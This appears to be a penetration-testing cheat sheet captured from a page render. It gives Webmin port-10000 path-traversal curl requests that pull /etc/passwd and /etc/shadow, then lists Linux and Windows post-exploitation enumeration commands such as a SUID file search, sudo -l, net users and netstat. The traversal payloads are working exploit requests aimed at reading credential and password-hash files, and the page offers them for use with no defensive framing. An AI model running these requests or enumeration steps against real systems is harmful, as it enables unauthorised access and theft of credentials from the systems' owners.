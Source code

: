 *   Webmin and miniserv/0.01 Enumeration - Port 10000

    Test for LFI & file disclosure vulnerability by grabbing /etc/passwd

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`

    Test to see if webmin is running as root by grabbing /etc/shadow

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

*   Linux OS Enumeration

    *   List all SUID files  
        `find / -perm -4000 2>/dev/null`

    *   Determine the current version of Linux  
        `cat /etc/issue`

    *   Determine more information about the environment  
        `uname -a`

    *   List processes running  
        `ps -xaf`

    *   List the allowed (and forbidden) commands for the invoking use  
        `sudo -l`

    *   List iptables rules  
        `iptables --table nat --list iptables -vL -t filter iptables -vL -t nat iptables -vL -t mangle iptables -vL -t raw iptables -vL -t security`

*   Windows OS Enumeration

    *   net config Workstation

    *   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

    *   hostname

    *   net users

    *   ipconfig /all

    *   route print

    *   arp -A

    *   netstat -ano

    *   netsh firewall show state

    *   netsh firewall show config

    *   schtasks /query /fo LIST /v

    *   tasklist /SVC

    *   net start

